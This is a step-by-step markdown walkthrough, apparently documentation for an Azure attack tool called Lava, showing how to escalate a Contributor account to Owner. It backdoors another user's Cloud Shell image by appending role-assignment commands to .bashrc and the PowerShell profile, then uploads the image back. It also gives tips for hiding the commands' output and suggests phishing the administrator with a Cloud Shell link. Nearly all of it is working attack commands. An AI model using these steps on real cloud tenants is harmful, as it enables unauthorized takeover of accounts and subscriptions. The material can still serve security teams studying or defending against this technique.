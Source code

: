 # Privilege Escalation using the Cloud Shell Account

## Steps

#### 1) Authenticate with the contributor account

    az login -u CONTRIBUTOR_USER@DOMAIN.LOCAL -p PASSWORD 

#### 2) Run Lava

    python3 lava.py

#### 3) Verify the current user and permissions

    Lava $> exec priv_show 

#### 4) Scan the file shares in the Azure subscription for potential Cloud Shell images

    Lava $> exec stg_file_scan 

#### 5) Downloads the file into a temporary directory. Make note of the download location

    Lava $> exec stg_file_download 

#### 6) Exit Lava

    exit

#### 7) Mount the downloaded image file

    mount DOWNLOAD_LOCATION/.cloudconsole/acc_azureadmin.img /mnt 

#### 8) Explore the mounted drive with this command, then press tab

    ls /mnt/ 

#### 9) Change directory to the mounted drive

    cd /mnt 

#### 10) Append a malicious command to the .bashrc file to escalate the privileges of our current user

    echo "az role assignment create --role "Owner" --assignee $(az ad user list --display-name contributoruser | jq '.[]' | jq -r '.userPrincipalName')" >> .bashrc 

### To do the same for a Powershell session we can do:

#### 1) 

    mkdir .config

    mkdir .config/PowerShell

    echo "New-AzRoleAssignment -UserPrincipalName (Get-AzADUser -StartsWith contributoruser).UserPrincipalName -RoleDefinitionName Owner" >> .config/PowerShell/Microsoft.PowerShell_profile.ps1 (Same trick as Linux)

    cd ..

#### 2) Unmount the drive from your session

    umount /mnt 

#### 3) Enumerate the storage accounts

    az storage account list --query [].name -o tsv 

#### 4) Store the target storage account in a variable

    storagename=STORAGE_ACCT_NAME 

#### 5) Obtain the access key

    key=$(az storage account keys list -n $storagename --query [0].value -o tsv) 

#### 6) Obtain the file share

    csfileshare=$(az storage share list --account-key $key --account-name $storagename --query [].name -o tsv) 

#### 7) Upload the image back to it

    az storage file upload --account-key $key --account-name $storagename --share-name $csfileshare --path ".cloudconsole/acc_azureadmin.img" --source "DOWNLOAD_LOCATION/.cloudconsole/acc_azureadmin.img" 

#### 8) Trigger the attack by opening a Cloud Shell instance as an administrator (Or wait for someone to trigger it)

#### 9) After triggering, execute: 

    python3 lava.py

#### 10) Verify the attack worked

    exec priv_show 

## TIP: For a stealthier action from our attacks, we can use: | out-null function at the end of the Powershell command OR &> /dev/null at the end of the Bash shell attack.

### In a practical attack scenario, it may take a while for a victim Cloud Shell account to open a new session. To expedite this process, you could send a phishing email that links to https://shell.azure.com/. Not only will the link look legitimate, but it will start up a Cloud Shell session as soon as the site is loaded.



